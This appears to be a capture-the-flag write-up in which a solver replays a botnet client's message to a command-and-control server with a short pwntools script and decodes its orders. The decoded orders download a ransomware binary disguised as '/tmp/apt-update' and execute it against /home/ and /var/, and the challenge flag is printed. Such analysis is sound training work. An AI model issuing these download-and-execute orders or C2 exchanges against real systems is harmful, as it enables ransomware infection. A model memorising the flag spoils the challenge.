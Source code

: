 #### Challenge:

Hi executive senior investigator! 

Cool, you have found the malware dropped on target computer.  According to your defined procedure and your previously detected IoC (indicators of compromise), we were able to find other versions of malware in traffic dumps - we assume it is some kind of botnet client. Unfortunatelly, it looks like the C2 server has been meanwhile upgraded and although the server reacts to client's messages, the client can't decode the orders. You should investigate the communication.  [the_connection.tar.xz](./the_connection.tar.xz ":ignore")

Good luck!

---

#### Solution:

- run the client `./botnet_client -ip '78.128.216.92' -p 20210` and inspect the communication in `wireshark`
- it seems that client send the same message to server, so lets try to reply it and decode the server responses
```python
#!/usr/bin/env python3
from pwn import *
import base64


def parse(msg):
    msg = msg[8:].decode('utf-8')
    time = base64.b64decode(msg)[::-1].decode('utf-8').split('jq')[1]
    return bytes.fromhex(time).decode('utf-8')


while True:
    context.log_level = 'error'
    r = remote('78.128.216.92', 20210)
    r.sendline("\x00\x00\x00\x00\x00\x00\x00\x17\x39\x68\x37\x70\x61\x62\x7a\x75\x79\x64\x76\x33\x31\x78\x6a\x71\x3b\x3b\x72\x65\x61\x64\x79")
    msg = parse(r.recv())
    if 'wait;;' not in msg:
        print(msg)
```

```console
download;;http://challenges.thecatch.cz:20102/ransomvid1984.bin;;/tmp/apt-update
download;;http://challenges.thecatch.cz:20102/key1984.RV20;;/tmp/key
execute;;/tmp/apt-update -k /tmp/key -p /home/
execute;;/tmp/apt-update -k /tmp/key -p /var/
```
- check dumped links for flag
```bash
curl http://challenges.thecatch.cz:20102/ransomvid1984.bin
```

---

<details><summary>FLAG:</summary>

```
FLAG{kT0c-WTfc-S326-Jp1A}
```

</details>
<br/>
